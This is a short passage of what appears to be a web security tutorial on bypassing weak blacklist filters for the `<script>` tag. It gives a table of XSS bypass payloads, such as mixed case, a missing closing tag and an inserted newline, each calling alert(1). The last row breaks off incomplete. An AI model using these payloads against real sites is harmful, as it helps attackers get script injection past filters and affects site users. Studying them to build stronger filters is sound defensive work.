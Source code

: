 Blacklisting Filters is the most filter mechanism being used. These type of filter's common goal is to detect specific patterns to prevent malicious behaviors.

The `<script>` tag is the primary method to execute JavaScript.

Some filters do not cover all possible cases, making them weak and prone to bypass techniques. The following is an example of few bypasses for weak `<script>` tag filter rules:

| Bypass Payload                      | Description                                                    |
| ----------------------------------- | -------------------------------------------------------------- |
| `<ScRiPt>alert(1);</ScRiPt>`        | Mixed of upper and lower-case characters.                      |
| `<ScRiPt>alert(1);`                 | Mixed of upper and lower-case characters, without closing tag. |
| `<script/random>alert(1);</script>` | Random string after the tag name.                              |
| `<script`<br>`>alert(1);</script>`  | New line after the tag name.                                   |
| `<script><`                         |                                                                |
|                                     |                                                                |
